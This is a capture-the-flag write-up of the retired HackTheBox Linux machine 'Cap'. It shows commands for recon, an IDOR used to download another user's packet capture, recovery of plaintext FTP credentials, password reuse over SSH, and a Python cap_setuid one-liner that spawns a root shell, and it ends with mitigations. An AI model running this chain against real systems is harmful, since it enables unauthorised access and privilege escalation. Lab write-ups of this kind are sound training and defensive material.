# HackTheBox — Cap


> **Machine:** Cap · **OS:** Linux (Ubuntu 20.04) · **Difficulty:** Easy
> **Target IP (this run):** `10.129.42.216`

---

## Overview

**Cap** is an easy Linux machine running an HTTP server that performs administrative
functions, including network packet captures. Broken access control results in an
**Insecure Direct Object Reference (IDOR)** that lets us read another user's capture.
That capture contains **plaintext FTP credentials**, which give us a foothold. Finally,
a misconfigured **Linux capability** on the Python binary is abused to escalate to **root**.

**Attack path at a glance:**

```
nmap → web dashboard → IDOR on /data/<id> → download /data/0 pcap
      → analyse pcap (Zeek/Wireshark) → plaintext FTP creds (nathan)
      → SSH as nathan (user.txt) → python3.8 cap_setuid+eip → root (root.txt)
```

> **Note on flags:** Per HTB guidelines, the actual `user.txt` and `root.txt` hashes are
> redacted in this writeup (in both the text and the screenshots).

---

## 1. Reconnaissance

### Nmap

```bash
nmap -sC -sV -Pn 10.129.42.216
```

Three TCP ports are open:

| Port | Service | Version |
|------|---------|---------|
| 21   | FTP     | vsftpd 3.0.3 |
| 22   | SSH     | OpenSSH 8.2p1 (Ubuntu) |
| 80   | HTTP    | Gunicorn (Security Dashboard) |



---

## 2. FTP Enumeration (Port 21)

First, check for anonymous access:

```bash
ftp 10.129.42.216
# Name: anonymous
```

Anonymous login is **rejected** (`530 Login incorrect`).



`searchsploit` for the running vsftpd version only returns denial-of-service entries —
nothing useful for gaining access here.

```bash
searchsploit vsftpd
```



FTP is a dead end for now, so we pivot to the web application.

---

## 3. Web Enumeration (Port 80)

The HTTP service hosts a **Security Dashboard** with panels for Security Events,
Failed Login Attempts, Port Scans, IP Config, Network Status, and a
"Security Snapshot" feature that captures traffic.



### Content discovery

`robots.txt` and `sitemap.xml` return **Not Found** — no hidden hints there.





Run `gobuster` to brute-force directories:

```bash
gobuster dir -u http://10.129.42.216/ \
  -w /opt/homebrew/share/seclist/SecLists-master/Discovery/Web-Content/common.txt
```

Discovered endpoints:

| Path | Status | Notes |
|------|--------|-------|
| `/data` | 302 → `/data/1` | Capture data endpoint |
| `/ip`   | 200 | IP config |
| `/netstat` | 200 | Network status |
| `/capture` | 302 → `/data/2` | Triggers a new snapshot |



---

## 4. IDOR — Insecure Direct Object Reference

Running a **"Security Snapshot"** redirects the browser to a path of the form
`/data/<id>`, where `<id>` is the numeric ID of *your* scan. The `[something]`
segment is simply **`data`**.



Because the application trusts the `<id>` in the URL without checking ownership,
we can simply **change the number** to read other users' captures:

```
http://10.129.42.216/data/0   ← someone else's scan
http://10.129.42.216/data/1
http://10.129.42.216/data/2
http://10.129.42.216/data/3
```

Each scan page exposes a **Download** button that serves the raw `.pcap`.
The capture with **ID `0`** is the interesting one — it contains sensitive data.

Download all of them and analyse `0.pcap`.

---

## 5. PCAP Analysis → Credentials

### Zeek

Parse the capture with Zeek to see what protocols and logs are present:

```bash
zeek -Cr 0.pcap
ls
# conn.log  files.log  ftp.log  http.log  packet_filter.log
```



An `ftp.log` is generated — the sensitive data lives in the **FTP** application-layer
protocol. Reading it shows FTP commands for the user **`nathan`**, but the password
column is masked (`<hidden>`).

```bash
cat ftp.log
```



### Wireshark

Since Zeek hides the password, open `0.pcap` in **Wireshark** and use
**Follow → TCP Stream** on the FTP control channel. The plaintext credentials
are right there in the `USER` / `PASS` exchange:

```
USER nathan
PASS Buck3tH4TF0RM3!
```



**Credentials recovered:** `nathan : Buck3tH4TF0RM3!`

---

## 6. Foothold & User Flag

The recovered password works on **FTP**, and — importantly — it is **reused on SSH**.

Log in over FTP and grab `user.txt`:

```bash
ftp 10.129.42.216
# nathan / Buck3tH4TF0RM3!
ftp> ls
ftp> get user.txt
```



```bash
cat user.txt
# [REDACTED — user flag]
```



For an interactive shell, SSH in with the same credentials:

```bash
ssh nathan@10.129.42.216
# password: Buck3tH4TF0RM3!
```



✅ **User owned.**

---

## 7. Privilege Escalation — Linux Capabilities

Enumerate the host (here, `LinEnum.sh`). The key finding is a **capability** set on the
Python binary:

```bash
./LinEnum.sh -t > LinOutput
cat LinOutput | grep python
```

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```



`cap_setuid+eip` means the binary can **set its UID to anything — including root (UID 0)** —
without needing `sudo`. This is the intended privilege-escalation vector.

> Reference: [GTFOBins — python (capabilities)](https://gtfobins.github.io/gtfobins/python/#capabilities)

### Exploit

Invoke the full path to the capability-enabled binary, set the UID to `0`, and spawn a shell:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Or interactively:

```python
/usr/bin/python3.8
>>> import os
>>> os.setuid(0)
>>> os.system("sh")
# whoami
root
```

Then read the root flag:

```bash
# cd /root
# cat root.txt
# [REDACTED — root flag]
```



✅ **Root owned.**

---

## Summary

| Stage | Technique |
|-------|-----------|
| Recon | `nmap` — FTP / SSH / HTTP |
| Access control flaw | **IDOR** on `/data/<id>` |
| Credential exposure | Plaintext FTP creds in captured `pcap` (Zeek + Wireshark) |
| Foothold | Password reuse → FTP + SSH as `nathan` |
| Privilege escalation | `cap_setuid+eip` on `/usr/bin/python3.8` |

## Key Takeaways / Mitigations

- **Enforce authorization, not just authentication.** Every object reference (`/data/<id>`)
  must be checked against the requesting user's ownership to prevent IDOR.
- **Never send credentials in cleartext.** FTP transmits `USER`/`PASS` unencrypted; use
  FTPS/SFTP so a captured session can't leak secrets.
- **Don't reuse passwords across services.** One FTP password reused on SSH turned a
  read-only leak into a shell.
- **Audit Linux capabilities.** `getcap -r / 2>/dev/null` — capabilities like `cap_setuid`
  on interpreters (python, perl, etc.) are effectively a root backdoor.

---

*Educational writeup for the retired HackTheBox machine "Cap." Flags are intentionally
redacted in accordance with HTB's writeup policy.*
